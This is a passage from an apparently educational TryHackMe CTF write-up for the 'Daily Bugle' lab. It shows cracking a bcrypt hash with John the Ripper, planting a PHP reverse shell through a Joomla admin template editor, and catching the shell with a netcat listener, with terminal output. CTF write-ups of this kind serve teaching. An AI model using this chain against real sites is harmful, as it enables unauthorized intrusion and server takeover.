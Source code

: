 ``` bash
jeffrowell@kali:~/Documents/TryHackMe/Daily Bugle$ /opt/JohnTheRipper/run/john jonah_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:03:59 0.11% (ETA: 2020-05-20 07:47) 0g/s 81.71p/s 81.71c/s 81.71C/s 150588..shalini
0g 0:00:07:01 0.19% (ETA: 2020-05-20 09:54) 0g/s 79.16p/s 79.16c/s 79.16C/s coco21..atlas
spiderman123     (?)
1g 0:00:09:49 DONE (2020-05-17 21:33) 0.001696g/s 79.53p/s 79.53c/s 79.53C/s thelma1..setsuna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. What is the user flag?

  Now that we have credentials, we can log into the `/administrator` enpoint of the site as the `jonah` user. Once we log in, we see that we can view and modify some of the website's templates:

  ![templates](https://user-images.githubusercontent.com/32188816/82178969-785d7e00-989a-11ea-9893-12a7a594a8ff.png)

  Once we are in the templates page, there are two templates we can select from, which will lead to different URL paths later on:

  ![beez3](https://user-images.githubusercontent.com/32188816/82179052-a8a51c80-989a-11ea-93e1-83074d8eaef2.png)

  Selecting the Beez3 template, we see a slew of files that we can add, remove, or update. Here is where I selected to add a new file by clicking on "New File", naming the file `revshell` and selecting the PHP file type. Once the file is created we can drop the code for a PHP reverse shell:

  ![file](https://user-images.githubusercontent.com/32188816/82179219-06396900-989b-11ea-834e-b468510aeb94.png)

  In the terminal set up a listener on the port specified in the PHP reverse shell:
  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/Daily Bugle$ nc -lvp 9999
  ```

  Now, we just need to navigate to the URL that will execute the reverse shell:
  ```
  http://$IP/templates/beez3/revshell.php
  ```

  Back in the terminal, we have caught the shell:
  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/Daily Bugle$ nc -lvp 9999
  listening on [any] 9999 ...
  10.10.27.26: inverse host lookup failed: Unknown host
  connect to [10.8.21.42] from (UNKNOWN) [10.10.27.26] 45672
  Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
   02:06:26 up  4:18,  1 user,  load average: 0.00, 0.06, 0.13
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  jjameson pts/3    ip-10-8-21-42.eu 01:57    6:58   0.00s  0.00s -bash
  uid=48(apache) gid=48(apache) groups=48(apache)
  sh: no job control in this shell
  sh-4.2$ id
  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  sh-4.2$ ls /home
  ls /home
  jjameson
  sh-4.2$
  ```
